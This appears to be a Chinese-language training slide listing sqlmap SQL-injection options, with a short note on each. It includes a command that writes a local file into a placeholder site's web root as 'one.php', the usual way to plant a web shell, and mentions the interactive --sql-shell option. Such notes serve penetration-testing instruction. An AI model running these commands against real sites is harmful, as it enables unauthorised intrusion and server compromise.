

sqlmap -u “www.a.com/1.php?id=1” --file-write=”d:/2.txt”
--file-dest=”E:/wwwroot/bihuoedu/one.php“

--batch 全自动
--start=开始条数 --stop=结束条数
--purge 清空缓存目录
--sql-shell  反弹sqlshell,类似于sql查询分析器
默认路径.sqlmap （点sqlmap）